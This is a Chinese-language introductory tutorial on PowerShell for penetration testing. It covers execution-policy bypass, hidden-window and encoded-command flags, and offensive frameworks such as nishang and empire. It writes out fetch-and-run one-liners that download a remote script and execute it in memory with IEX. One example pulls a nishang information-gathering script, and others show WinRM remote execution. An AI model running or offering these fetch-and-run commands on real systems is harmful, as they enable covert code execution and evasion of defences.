




## 目录
- 什么是powershell
- 基本参数
- 基本命令

### 1. 什么是powershell
功能相当于UNIX系统的命令行壳程序（例如：sh、bash或csh），同时也内置脚本语言以及辅助脚本程序的工具。

powershell的优点在于：
- win7以上默认安装
- powershell脚本可以运行在内存
- 免杀效果好
- 可以使用Windows API＆.Net代码

powershell框架：
- nishang 
- empire
- powerup
- powersploit
- ......

### 2. 基本参数
- -Exec Bypass

powershell的安全策略有五级：Restricted、AllSigned（所有的签名 ）、RemoteSigned（远程签名） 、Unrestricted、Bypass。
默认安全策略不允许运行ps1文件（powershell脚本文件），当你启动一个ps1脚本文件，会通过记事本打开。
因此这个参数就是用来绕过安全策略直接执行powershell脚本。


- -NonI

非交互模式
- -NoProfile（或者-NoP）

powershell控制台不加载当前用户的配置文件
- -noexit

执行后不退出powershell
- -W Hidden

将命令窗口保持隐藏
- -enc [Base64 Code]

执行经过编码的代码，Base64 Code为base64编码后的Powershell脚本
- -File 

从指定文件中运行命令
- (New-Object Net.WebClient).DownloadString()
- (New-Object System.Net.Webclient).DownloadFile()

System.Net Webclient类是用来向远程发送数据，或者接收数据。

DownloadFile 方法，它可以从远程下载一个文件到存到本地。

Download-String方法可以将远程的内容下载到内存中的缓冲区。
- IEX
 
即Invoke-Expression，允许用户计算和运行动态生成的命令。此方法通常用于直接下载到内存的脚本。
- -command

执行命令
### 3. 基本命令
- 直接通过command执行powershell自带命令
```
powershell.exe -command Get-HotFix  #检查系统补丁
powershell.exe -command Get-Process  #获取进程列表
```
- 远程下载powershell脚本，并且装入内存执行。
```
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-ObjectNet.WebClient).DownloadString('[Powershell URL]');[Parameters]
```
- 远程下载脚本到本地文件，然后运行文件
```
Powershell.exe (New-Object System.Net.WebClient).DownloadFile($URL,$LocalFileLocation);Start-Process $LocalFileLocation 
```
比如下面这个例子，加载远程的powershell脚本，nishang框架的getInformation到内存执行来获取系统信息
```
Powershell.exe -Exec Bypass IEX"(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-Information.ps1');Get-Information"
```
- powershell进行远程交互

首先需要在要进行远程连接的主机上面设置WinRM（Windows Remote Mangement）为允许远程连接：



然后在本机添加信任列表：
```
Set-Item wsman:\localhost\Client\TrustedHosts -value 192.168.1.*
```



然后就可以使用PSSession 命令进入远程 powershell 会话交互模式

```
Enter-PSSession –ComputerName 192.168.1.105 -Credential Administrator
```


或者利用Invoke-Command在计算机上远程执行命令（或者脚本等等）：
```
Invoke-Command -ComputerName 192.168.1.105 –ScriptBlock {Start-Process -FilePath Ping.exe -ArgumentLis
t "192.168.1.103 -n 5"} –credential Administrator
```
执行之后可以抓到包：


---
这里只是对powershell进行一个简单的入门介绍，后续需要学习powershell的各种框架，利用这些框架来进行渗透，再进阶要掌握powershell的语法以及各种代码混淆。


